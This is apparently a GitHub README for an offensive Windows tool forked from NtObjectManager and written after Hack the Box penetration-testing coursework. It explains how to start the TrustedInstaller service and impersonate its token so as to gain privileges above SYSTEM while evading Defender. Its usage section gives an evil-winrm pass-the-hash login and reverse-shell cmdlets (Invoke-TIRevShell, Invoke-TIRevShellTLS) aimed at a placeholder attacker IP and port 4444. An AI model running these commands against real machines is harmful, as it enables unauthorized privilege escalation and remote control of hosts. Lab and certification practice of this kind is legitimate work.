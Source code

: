 # Evil-NTObjectManager: Fork of NtObjectManager from Google Project Zero with Additional Privilege Escalation Functionality

While going through the [Hack the Box Academy](https://academy.hackthebox.com) Penetration Tester Role Path (the course material for Hack the Box's all-powerful Certified Penetration Testing Specialist, or CPTS, certification), one of things I was tasked with doing was using the SeImpersonatePrivilege, SeDebugPrivilege, and other such escalation vectors within Windows targets to quickly and efficiently break out of restricted environments and find flags hidden in the target systems. In the Windows Privilege Escalation module, one of the ways in which this can be achieved is through manipulation of Windows services using the `sc.exe` binary, i.e. with the `binpath=` argument. However, there are a few caveats to this approach:

1. The process is very destructive and thus easily detectable by countermeasures that the target may have in place.
2. If you use `sc` to load, say, a Metasploit payload, it's not going to last for very long; you need to spawn a secondary shell quickly before the service start attempt times out.
3. If a service is already running, you need to stop it before you can configure it.

Knowing this, I thought to myself, "What core Windows services are stopped by default, have high privileges, and are easy to impersonate?" That's when I remembered that I had previously watched [this John Hammond video](https://youtu.be/Vj1uh89v-Sc?si=my7yy2IFgrFNsdYG) which mentioned one such service: the all-powerful [TrustedInstaller](https://reddit.com/r/Windows10/comments/17m3cyr/how_does_one_become_trustedinstaller/) which has some privileges, such as the ability to delete Windows core components or inject executables deep into the `C:\Program Files\WindowsApps` directory where even Defender won't have permission to do anything, that even `NT AUTHORITY\SYSTEM` does not have. However, the method that Hammond outlines in the video was for a time a very tedious process that involved typing 7 so sequential commands into the PowerShell console just to grab the permission token. Was, that is, until now.

In this project, I've managed to wrap the entire process of starting TrustedInstaller only to immediately impersonate the token into one cmdlet: `Invoke-TrustedInstaller`. In addition, I've added two additional functions for spawning and fully backgrounding new reverse shells from entirely within the context of the highest privileged Windows service of them all.

## Usage

```bash
evil-winrm -i x.x.x.x -u Administrator -H 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' -s "$PWD/Evil-NtObjectManager"
<SNIP>
```
```powershell
*Evil-WinRM* PS C:\> TrustedInstaller.ps1; Invoke-TrustedInstaller
```

```powershell
Import-Module .\TrustedInstaller.ps1; Invoke-TrustedInstaller
```

```powershell
Invoke-TIRevShell -IP x.x.x.x -Port 4444
Invoke-TIRevShellTLS -IP x.x.x.x -Port 4444
```